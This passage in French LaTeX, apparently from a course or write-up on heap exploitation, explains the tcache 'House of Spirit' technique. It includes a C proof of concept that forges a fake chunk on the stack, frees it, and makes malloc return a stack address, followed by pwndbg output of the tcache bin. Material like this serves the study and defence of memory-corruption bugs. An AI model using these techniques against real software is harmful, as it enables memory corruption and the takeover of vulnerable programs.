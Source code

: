 \paragraph{Fonctionnement de l'attaque:}
L'attaquant prépare d'abord un faux chunk en définissant simplement son champ \texttt{size} pour qu'il corresponde à la catégorie visée dans le Tcache (généralement $\leq$ \texttt{0x410}). L'adresse du faux chunk doit être correctement alignée sur 16 octets. Ensuite, si le programme possède une vulnérabilité permettant de manipuler un pointeur qui sera soumis à \texttt{free()}, l'attaquant remplace ce pointeur par l'adresse de la zone de données du faux chunk. Lorsque \texttt{free()} est appelé, le faux chunk est inséré dans le Tcache, prêt à être récupéré via un appel \texttt{malloc()}.

\paragraph{Démonstration par le code:}

\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    // 1. Initialisation de malloc
    malloc(1);

    // 2. Zone mémoire contrôlable par l'attaquant (ex: sur la pile)
    unsigned long long fake_chunks[10] __attribute__((aligned(0x10)));
    unsigned long long *a; // Pointeur qui sera manipulé

    // 3. Forger l'en-tête du faux chunk avec une taille valide (0x40)
    fake_chunks[1] = 0x40;

    // 4. Vulnérabilité : pointeur sur la zone utilisateur du fake chunk
    a = &fake_chunks[2];

    // 5. Libération du faux chunk (commande bins)
    free(a);

    // 6. Exploitation : l'allocateur nous retourne notre faux chunk sur la pile
    // (commande stack)
    void *b = malloc(0x30);

    assert((long)b == (long)&fake_chunks[2]);
    return 0;
}
\end{verbatim}

\begin{pwndbg}[bins]{text}
    tcachebins
    0x40 [  1]: 0x7fffffffd460 {fake_chunks+0x10} <- 0
\end{pwndbg}

